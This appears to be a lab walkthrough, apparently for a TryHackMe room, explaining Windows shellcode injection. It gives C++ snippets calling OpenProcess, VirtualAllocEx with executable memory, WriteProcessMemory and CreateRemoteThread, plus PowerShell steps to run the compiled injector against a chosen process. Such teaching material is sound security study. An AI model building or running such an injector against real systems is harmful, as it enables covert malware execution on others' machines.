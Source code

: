 # Shellcode injection

Shellcode injection is the most basic form of process injection.

## Overview

| ![Shell injection](../../_static/images/shell-injection.png) |
|:--:|
| How Windows API calls interact with process memory. |

1. Open a target process with all access rights ([OpenProcess](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess)).
2. Allocate target process memory for the shellcode ([VirtualAllocEx](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)).
3. Write shellcode to allocated memory in the target process ([WriteProcessMemory](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)).
4. Execute the shellcode using a remote thread ([CreateRemoteThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)).

## C++ Code

Open the target process supplied via the command-line:

```text
processHandle = OpenProcess(
	PROCESS_ALL_ACCESS, // Defines access rights
	FALSE, // Target handle will not be inhereted
	DWORD(atoi(argv[1])) // Local process supplied by command-line arguments 
);
```

Allocate memory to the byte size of the shellcode:

```text
remoteBuffer = VirtualAllocEx(
	processHandle, // Opened target process
	NULL, 
	sizeof shellcode, // Region size of memory allocation
	(MEM_RESERVE | MEM_COMMIT), // Reserves and commits pages
	PAGE_EXECUTE_READWRITE // Enables execution and read/write access to the commited pages
);
```

Use the allocated memory region to write our shellcode to memory regions:

```text
WriteProcessMemory(
	processHandle, // Opened target process
	remoteBuffer, // Allocated memory region
	shellcode, // Data to write
	sizeof shellcode, // byte size of data
	NULL
);
```

Execute the shellcode residing in memory:

```text
remoteThread = CreateRemoteThread(
	processHandle, // Opened target process
	NULL, 
	0, // Default size of the stack
	(LPTHREAD_START_ROUTINE)remoteBuffer, // Pointer to the starting address of the thread
	NULL, 
	0, // Ran immediately after creation
	NULL
);
```

Compile to create a basic process injector (`shellcode-injector.exe`).

## Injection

On the target machine, start up Powershell, and identify a `PID` of a process running as `THM-Attacker` to target 
(using Details tab of TaskManager). I chose the PID of the Powershell.

```text
PS C:\Users\THM-Attacker> cd .\Desktop\
PS C:\Users\THM-Attacker\Desktop> cd .\Injectors\
PS C:\Users\THM-Attacker\Desktop\Injectors> .\shellcode-injector.exe PID
```

Flag!

